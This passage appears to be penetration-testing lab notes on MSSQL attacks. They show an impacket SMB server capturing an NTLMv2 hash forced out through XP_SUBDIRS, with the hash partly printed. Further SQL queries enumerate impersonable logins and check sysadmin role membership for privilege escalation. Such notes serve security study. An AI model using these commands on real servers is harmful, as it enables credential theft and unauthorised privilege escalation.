 #### XP_SUBDIRS Hash Stealing with impacket

```sh
sudo impacket-smbserver share ./ -smb2support

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 
[*] Config file parsed                                                 
[*] Config file parsed                                                 
[*] Config file parsed
[*] Incoming connection (10.129.203.7,49728)
[*] AUTHENTICATE_MESSAGE (WINSRV02\mssqlsvc,WINSRV02)
[*] User WINSRV02\mssqlsvc authenticated successfully                        
[*] demouser::WIN7BOX:5e3ab1c4380b94a1:A18830632D52768440B7E2425C4A7107:0101000000000000009BFFB9DE3D<SNIP>
[*] Closing down connection (10.129.203.7,49728)                      
[*] Remaining connections []
```

## Impersonate Existing Users with MSSQL
* SQL Server has a special permission, named `IMPERSONATE`, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends
* First identify users that we can impersonate
* Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned

#### Identify Users that We Can Impersonate

```powershell
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------
sa
ben
valentin

(3 rows affected)
```

#### Verifying our Current User and Role

```powershell
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio                                                                                                                    

(1 rows affected)

-----------
          0

(1 rows affected)
```
